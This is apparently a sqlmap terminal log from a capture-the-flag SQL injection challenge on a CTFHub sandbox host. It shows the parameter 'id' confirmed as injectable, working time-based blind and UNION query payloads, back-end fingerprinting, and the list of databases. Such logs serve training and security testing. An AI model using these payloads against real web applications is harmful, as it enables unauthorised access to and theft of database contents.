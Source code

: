 ```shell
[15:43:39] [INFO] heuristic (XSS) test shows that GET parameter 'id' might be vulnerable to cross-site scripting (XSS) attacks
[15:43:39] [INFO] testing for SQL injection on GET parameter 'id'
[15:43:39] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[15:43:39] [WARNING] reflective value(s) found and filtering out
[15:43:40] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[15:43:40] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[15:43:40] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
[15:43:41] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)'
[15:43:41] [INFO] testing 'Oracle AND error-based - WHERE or HAVING clause (XMLType)'
[15:43:41] [INFO] testing 'Generic inline queries'
[15:43:41] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'
[15:43:42] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries (comment)'
[15:43:42] [INFO] testing 'Oracle stacked queries (DBMS_PIPE.RECEIVE_MESSAGE - comment)'
[15:43:42] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[15:43:53] [INFO] GET parameter 'id' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] n
[15:43:57] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[15:43:57] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[15:43:58] [INFO] target URL appears to be UNION injectable with 2 columns
[15:43:59] [INFO] GET parameter 'id' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] n
sqlmap identified the following injection point(s) with a total of 80 HTTP(s) requests:
---
Parameter: id (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1 AND (SELECT 3202 FROM (SELECT(SLEEP(5)))YRbQ)

    Type: UNION query
    Title: Generic UNION query (NULL) - 2 columns
    Payload: id=-2937 UNION ALL SELECT NULL,CONCAT(0x7176707071,0x6b6351537465477779424469434c4e4669796c6670694d4f504472585a737959596344736a4d794e,0x716b6a7a71)-- -
---
[15:44:10] [INFO] the back-end DBMS is MySQL
web application technology: OpenResty 1.19.3.2, PHP 7.3.14
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[15:44:10] [INFO] fetching database names
[15:44:10] [INFO] retrieved: 'information_schema'
[15:44:10] [INFO] retrieved: 'performance_schema'
[15:44:10] [INFO] retrieved: 'mysql'
[15:44:10] [INFO] retrieved: 'sqli'
available databases [4]:                                                                                                                                                   
[*] information_schema
[*] mysql
[*] performance_schema
[*] sqli

[15:44:10] [INFO] fetched data logged to text files under '/Users/xuyi/.local/share/sqlmap/output/challenge-7cd002cfce0bb7e2.sandbox.ctfhub.com'
```
